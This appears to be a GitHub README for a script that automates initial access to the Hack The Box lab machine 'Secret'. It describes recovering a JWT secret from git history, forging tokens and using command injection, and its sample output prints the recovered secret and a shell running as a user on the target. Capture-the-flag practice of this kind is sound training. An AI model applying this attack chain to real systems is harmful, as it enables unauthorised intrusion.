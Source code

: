 # Overview
---
- JWT token forge
- Information leak from git repository
- Express.js code review
- Command injection

# Usage
---
Run the script `run.sh` to build and run a docker container to get a point of entry of the HTB machine "Secret".
```bash
$ ./run.sh <IP>
[*] Add target hostname into /etc/hosts
[*] Download the git repository from http://secret.htb/download/files.zip
[*] unzip the downlaod file "files.zip"
[*] Get the JWT token secret from the git commit history
[*] JWT token secret: gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
secret.htb> id
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
secret.htb>
```

# Tags
---
#JWT, #git, #Express
